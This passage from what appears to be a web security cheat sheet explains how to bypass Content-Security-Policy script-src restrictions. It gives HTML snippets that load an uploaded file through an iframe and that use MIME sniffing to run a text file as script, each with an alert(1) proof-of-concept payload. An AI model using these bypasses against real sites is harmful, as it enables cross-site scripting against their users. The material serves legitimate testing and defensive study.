 ### Controlling executable files and script-src 'nonce' or 'hash'

If there is a way to control files with arbitrary extensions to some path in the same domain it might be possible to bypass `nonce` and `hash` based `script-src` using the `iframe` element (required misconfigured `frame-src`).

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-secret';">
    <!--
    or
    <meta http-equiv="Content-Security-Policy" content="script-src 'sha256-B2yPHKaXnvFWtRChIbabYmUBFZdVfKKXHbWtWidDVF8=';">
    -->
</head>
<body>
    <iframe src="/uploads/script.html"></iframe>
</body>
```

Where `/uploads/script.html` contains a payload:

```html
<script>alert(1)</script>
```

### Controlling text files and script-src 'self'

Most likely an application will restrict uploading files with potentially dangerous extensions like `html` or `js`.

If `X-Content-Type-Options: nosniff` is not active it is possible to use text files as sources for the `script` element. In this case, browsers use MIME-type sniffing to find out the actual content type of a file.

For example, for the policy below, it is possible to use any text files with MIME-types `text/plain`, `text/css`, `javasript/css`, etc. to load a script.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'self';">
</head>
<body>
    <!-- the file.css will be loaded and executed as JavaScript -->
    <script src='file.css'></script>
</body>
```

However, even if `X-Content-Type-Options: nosniff` is active, there are content types that can be used to deliver a payload, check out:
- [PortSwigger Cross-site scripting (XSS) cheat sheet: Content types](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#content-types)

## unsafe-eval
